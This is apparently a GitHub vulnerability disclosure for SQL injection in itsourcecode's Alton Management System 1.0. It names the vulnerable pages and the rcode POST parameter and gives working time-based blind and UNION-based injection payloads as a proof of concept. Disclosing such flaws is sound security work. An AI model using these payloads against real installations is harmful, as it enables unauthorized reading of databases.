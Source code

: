 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

After logging into the administrator account, use the POST method to request the "/retation_status.php" and "/summary.php" page, with the rcode parameter included in the request. Due to the page's lax filtering of rcode parameters, SQL injection vulnerabilities have been created.
<img width="1091" alt="image" src="https://github.com/user-attachments/assets/d30223c0-3807-4c7a-a916-220cf486891f">


# Poc
```
Parameter: rcode (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rcode=1' AND (SELECT 9171 FROM (SELECT(SLEEP(5)))KcsI) AND 'jidV'='jidV

    Type: UNION query
    Title: Generic UNION query (NULL) - 26 columns
    Payload: rcode=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176706271,0x4d78644f7042646e4f6b4b56754f67766354594c7759596f577845587869484d636b6e51794c4f70,0x7176626271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
<img width="1126" alt="image" src="https://github.com/user-attachments/assets/c1f6b5c9-8734-4f5d-846c-f2a26b919d1d">
